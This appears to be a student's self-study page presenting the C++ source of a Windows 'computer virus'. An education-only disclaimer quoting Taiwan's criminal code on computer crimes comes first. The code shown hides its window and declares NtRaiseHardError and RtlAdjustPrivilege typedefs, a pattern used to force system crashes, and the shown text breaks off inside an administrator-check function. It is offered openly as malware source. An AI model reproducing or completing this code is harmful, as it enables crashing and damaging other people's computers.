 高二上自主學習--電腦病毒實作-C++病毒
===
:::warning
==本文僅做於教育使用，不得用於非法用途==

根據中華民國刑法
第 358 條
無故輸入他人帳號密碼、破解使用電腦之保護措施或利用電腦系統之漏洞，而入侵他人之電腦或其相關設備者，處三年以下有期徒刑、拘役或科或併科三十萬元以下罰金。
第 359 條
無故取得、刪除或變更他人電腦或其相關設備之電磁紀錄，致生損害於公眾或他人者，處五年以下有期徒刑、拘役或科或併科六十萬元以下罰金。
第 360 條
無故以電腦程式或其他電磁方式干擾他人電腦或其相關設備，致生損害於公眾或他人者，處三年以下有期徒刑、拘役或科或併科三十萬元以下罰金。
第 361 條
對於公務機關之電腦或其相關設備犯前三條之罪者，加重其刑至二分之一。
:::
病毒原始碼
---
```
#include <Windows.h>
#include <iostream>
#include <winternl.h>
#include <iostream>
#include <time.h>
#include <mmsystem.h>
#include <atlstr.h>
#include <thread>
#include"resource.h"
#pragma comment(lib, "winmm.lib")
#pragma comment(linker, "/subsystem:windows /entry:mainCRTStartup")
using namespace std;
typedef NTSTATUS(NTAPI* pdef_NtRaiseHardError)(NTSTATUS ErrorStatus, ULONG NumberOfParameters, ULONG UnicodeStringParameterMask OPTIONAL, PULONG_PTR Parameters, ULONG ResponseOption, PULONG Response);
typedef NTSTATUS(NTAPI* pdef_RtlAdjustPrivilege)(ULONG Privilege, BOOLEAN Enable, BOOLEAN CurrentThread, PBOOLEAN Enabled);

BOOL admin()
{
    BOOL fIsRunAsAdmin = FALSE;
    DWORD dwError = ERROR_SUCCESS;
    PSID pAdministratorsGroup = NULL;

    SID_IDENTIFIER_AUTHORITY NtAuthority = SECURITY_NT_AUTHORITY;
    if (!AllocateAndInitializeSid(
        &NtAuthority,
        2,
        SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS,
        0, 0, 0, 0, 0, 0,
        &pAdministratorsGroup))
    {
        dwError = GetLastError();
        goto Cleanup;
    }

    if (!CheckTokenMembership(NULL, pAdministratorsGroup, &fIsRunAsAdmin))
    {
        dwError = GetLastError();
        goto Cleanup;
    }

Cleanup:

    if (pAdministratorsGroup){
```